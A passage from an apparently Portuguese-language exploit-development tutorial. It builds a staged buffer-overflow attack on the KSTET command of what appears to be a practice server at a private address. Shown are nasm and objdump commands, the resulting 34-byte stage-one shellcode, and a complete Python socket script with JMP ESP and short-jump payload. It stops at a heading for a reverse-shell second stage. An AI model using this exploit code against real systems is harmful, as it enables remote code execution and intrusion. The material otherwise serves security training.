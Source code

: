 Agora podemos compilar com o `nasm`.

```bash
$ nasm -f elf32 estagio1.asm -o estagio1.o
```

E sanitizar:

```bash
$ for i in $(objdump -d estagio1.o -M intel | grep '^ ' | cut -f2); do echo -n '\\x'$i;done
\x83\xec\x40\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x40\x53\x47\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75
```

Temos um estágio 1 de apenas 34 bytes que cabe perfeitamente em nosso buffer, vamos atualizar nosso script.

xplkstet.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payload
offset = 206

estagio1 = b"\x83\xec\x40\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x40\x53\x47\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3"

# payload
payload = b"KSTET "
payload += b"\x90" * 5 # padding do estagio 1
payload += estagio1
payload += b"A" * (70 - 5 - len(estagio1)) # buffer inicial
payload += b"\xd3\x11\x50\x62" # JMP ESP
payload += b"\xeb\xb4" # short jump
payload += b"\x90\x90" # padding do short jump
payload += b"C" * (offset - 70 - 4 - 4) # complemento do buffer

# primeiro estagio
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)
print("Enviando primeiro estagio...\n")
s.send(payload + b"\r\n")
s.close()
```

## ESTÁGIO 2: INJETANDO O REVERSE SHELL
